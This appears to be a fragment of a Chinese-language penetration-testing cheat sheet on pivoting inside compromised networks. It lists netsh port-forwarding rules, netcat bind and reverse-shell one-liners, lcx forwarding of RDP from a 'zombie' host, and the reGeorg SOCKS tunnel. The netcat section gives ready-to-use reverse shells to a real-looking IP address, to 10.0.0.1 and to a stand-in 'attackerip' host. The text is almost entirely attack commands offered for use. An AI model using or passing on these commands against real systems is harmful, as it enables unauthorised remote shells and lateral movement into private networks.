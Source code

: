set RHOST 127.0.0.1


## 0x06 Netsh[tcp]

添加转发规则

    netsh interface portproxy set v4tov4 listenaddress=192.168.206.101 listenport=3333 connectaddress=192.168.206.100 connectport=3389

    此工具适用于，有一台双网卡服务器，你可以通过它进行内网通信，比如这个，你连接192.168.206.101:3388端口是连接到100上面的3389
 
删除转发规则

    netsh interface portproxy delete v4tov4 listenport=9090
 
查看现有规则

    netsh interface portproxy show all
 
xp需要安装ipv6

    netsh interface ipv6 install


## 0x07 nc [正向]

```
1、 nc -e /bin/sh -lp 1234
    nc -e /bin/sh 223.8.200.234 1234
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 
    nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999
    
2、  mknod /tmp/backpipe p
    /bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
    
3、  nc.exe -e cmd.exe -lp 1234  [windows]
```

## 0x08 lcx 内网转发

监听1234端口,转发数据到2333端口

    本地:lcx.exe -listen 1234 6666
 
将目标的3389转发到本地的1234端口

    肉鸡:lcx.exe -slave my_ip 1234 127.0.0.1 3389
 
re:最好有个vps


## 0x09 reGeorg
https://github.com/sensepost/reGeorg

python reGeorgSocksProxy.py -p 4444 -u http://xxx.com/tunnel.php
vim /etc/proxychains.conf
    